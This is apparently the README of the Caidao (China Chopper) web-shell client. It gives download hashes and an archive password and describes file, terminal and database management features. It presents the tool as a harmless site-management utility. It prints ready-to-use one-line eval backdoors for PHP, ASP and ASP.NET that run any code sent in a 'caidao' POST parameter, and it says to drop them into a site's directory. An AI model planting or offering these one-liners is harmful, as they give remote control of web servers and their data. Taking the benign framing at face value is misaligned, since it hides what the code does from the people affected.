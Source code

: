 # caidao-20160620-www.maicaidao.com
caidao-20160620-www.maicaidao.com

##解压密码:www.maicaidao.com

##压缩包caidao-20160620-www.maicaidao.com.zip:

MD5: 75F9C0EA9CE2BA266560FE3364127AE3

SHA1: 3C87E017E3CF77C06827C587E43F902E6AF7B6B8

##caidao.exe： 

MD5:AC86066FFD58779F4C0DB5030574B0CB

SHA1: 02C1725FA5865A4BE0F4A040BFDBC4B30B628D8C



菜刀 / Caidao @ http://www.maicaidao.com/
-------------------------------------------
     菜刀，他是一款专业的网站管理工具
-------------------------------------------

一、网站管理模块
----------------

    放在网站上的脚本程序分两种：

　　1）“一句话(Eval)”：
	PHP, ASP, ASP.NET 的网站都可以，支持https。下面的代码放在网站目录即可开始管理，比FTP好用多了是不是：
　　	PHP:    <?php @eval($_POST['caidao']);?>
　　	ASP:    <%eval request("caidao")%>
　　	ASP.NET:    <%@ Page Language="Jscript"%><%eval(Request.Item["caidao"],"unsafe");%>

    2）自己开发的脚本程序(Customize)：

	理论上支持所有动态脚本,只要正确与菜刀进行交互即可。调用方法请参阅后面的 “Customize模式菜刀和服务端通信接口”。


    ---------------------------------------------------------------------------------------------------------

	
　　常用功能介绍

　　	1. 文件管理：[特色]缓存下载目录，并支持离线查看缓存目录;

　　	2. 虚拟终端：[特色]人性化的设计，操作方便;(输入HELP查看更多用法), 超长命令会分割为5k字节一份，分别提交。

　　	3. 数据库管理：[特色]图形界面,支持MYSQL,MSSQL,ORACLE,INFOMIX,POSTGRESQL,ACCESS, 以及支持ADO方式连接的数据库。

   	4. 自写脚本（只有Eval端才支持）：

		通过简单编码后提交用户自己的脚本到服务端执行，实现丰富的功能，也可选择发送到浏览器执行。

		如果要写自己的CCC脚本，可以参考一下CCC目录下的示例代码, 相信你也可以写出功能丰富的脚本。

		可以在官网下载别人的CCC脚本，或分享你的得意之作。


　　配置框填写说明
